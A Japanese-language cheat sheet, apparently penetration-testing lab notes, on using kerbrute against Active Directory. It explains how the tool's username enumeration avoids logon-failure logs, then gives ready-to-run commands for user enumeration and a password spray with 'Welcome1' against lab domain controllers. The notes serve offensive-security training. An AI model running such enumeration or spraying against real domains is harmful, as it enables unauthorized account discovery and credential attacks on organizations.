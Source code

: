 # kerbture
AD環境への攻撃で、ユーザ名を列挙するときに使える。  
仕組みとしてkerbruteはKerberos Pre Authenticationをスキップするため、Windowsイベントログにてログオン失敗のログが発生しない。  
ログオンではなく、Kerberos Pre AuthenticationをせずTGSの要求を行った時のレスポンスによってそのユーザ名がドメイン内で有効化どうかを判断しているよう。  
なのでKerbruteでのドメインユーザ列挙はステルス性が高く高速であるといえる。  
ただしSMBではなくLDAPの認証はしていることになるので、4771: Failed Kerberos Pre Authenticationのイベントは残る。

## コマンド集

1. aa
```
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclits/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
```

2. inlanefreight.lcoalドメインにて、ドメコンを指定して、有効なドメインユーザをjsmith.txtを使ってスキャンする。
```
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

3. Welcome1というパスワードを使って、有効なドメインユーザに対してパスワードスプレーを行う。
```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

4. ドメインユーザのリストを使って、有効なドメインユーザを確認する。
```
kerbrute userenum ./creds/dom-users.txt --domain hutch.offsec --dc 192.168.248.122
```